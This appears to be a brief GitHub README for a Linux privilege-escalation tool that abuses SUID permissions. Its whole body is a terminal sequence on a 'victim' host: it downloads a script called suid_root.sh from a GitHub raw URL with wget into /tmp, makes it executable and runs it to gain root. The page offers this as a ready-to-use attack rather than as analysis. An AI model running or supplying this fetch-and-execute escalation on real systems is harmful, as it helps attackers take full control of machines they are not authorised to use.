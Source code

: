 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 
```

**Screenshot**

![](/01.png)
